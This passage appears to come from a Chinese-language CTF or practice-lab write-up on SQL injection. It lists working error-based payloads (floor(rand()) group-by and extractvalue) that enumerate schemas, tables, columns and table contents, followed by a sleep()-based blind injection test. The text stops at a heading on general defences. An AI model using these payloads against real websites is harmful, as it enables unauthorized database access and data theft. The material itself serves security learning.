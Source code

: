 爆库`information_schema, mydbs, test`:
```
?username=admin' and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
```

爆表`log, motto, user`:
```
?username=admin' and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
```
> 通过修改`database()`后面的`LIMIT 0,1`中的`0`的值, 分别为`1 2`. 从而改变注入数据.


爆字段, motto表的字段为`id,user,motto`:
```
?username=admin' and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_name=0x6d6f74746f LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
```

读内容:
```
?username=admin' and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x23,username,0x3a,motto,0x23) FROM motto limit 3,1)))%23
```

key:
```
notfound!
```

<br />

# 七. 盲注
测试:
```
username=admin%27 and sleep(10)%23
```
发现注入成功


> sleep(N)可以让此语句运行N秒钟, 不过我删了它后, 仍然可以注入成功.

可以手工盲注, 网上推荐的是sqlmap盲注, 不过我没有跑出来, 据说是这题网络比较慢. 

> sqlmap过段时间会学习, 这里先跳过, 事情做多了容易乱.

<br />

# 八. SQL注入通用防护
注入有3种，post方式，get方式，cookie注入. cookie注入严格算post注入的一种.
